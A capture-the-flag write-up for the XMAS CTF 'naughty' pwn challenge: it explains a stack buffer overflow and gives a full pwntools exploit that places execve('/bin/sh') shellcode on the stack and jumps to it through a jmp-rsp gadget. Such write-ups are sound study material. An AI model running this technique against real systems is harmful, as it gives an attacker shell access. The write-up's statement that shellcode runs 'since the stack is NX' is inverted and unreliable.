


## XMAS CTF: naughty [pwn]


#### Standard buffer overflow which we can overwrite the return pointer, the catch is that we only have little control after taking program execution since we are only allowed a short amount of user input. 

#### We won't be able to perform a ropchain or get a leak, but we can execute shellcode since the stack is NX. My plan was to place the '/bin/sh' string and shellcode onto the stack then return to a gadget which jumps to the stack. Since I had no idea where the addresses where (but knew that stack offsets remained the same), I calculated the offset differences and made appropriate shellcode for it. The reason why I placed the /bin/sh string onto the stack earlier is because pushing values during the execution of our shellcode will affect the stack and fail to execute the next bytes of the shellcode. 

```python
from pwn import *

context.arch = 'amd64'
#p = process('./chall')
p = remote("challs.xmas.htsp.ro", 2000)
breakpoints = ['set disable-randomization off', 'break *0x4006b1']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
print(p.recvuntil('XMAS\n'))

#: Exploit code here
jump_rsp = 0x000000000040067f

shellcode = asm('''

	xor rsi, rsi
	xor rdx, rdx
	xor rax, rax
	lea rdi, [rsp-8]
	mov al, 0x3b
	syscall
	''')

exploit = '/bin/sh\x00'
exploit += shellcode
exploit += '\xcc' * (46 - len(exploit))
exploit += p64(0xe4ff)
exploit += cyclic(2)
exploit += p64(jump_rsp)

#: sub rsp, 0x38
#: jmp rsp
exploit += "\x48\x83\xEC\x38\xFF\xE4" #: jmp to shellcode

p.sendline(exploit)
p.interactive()
```

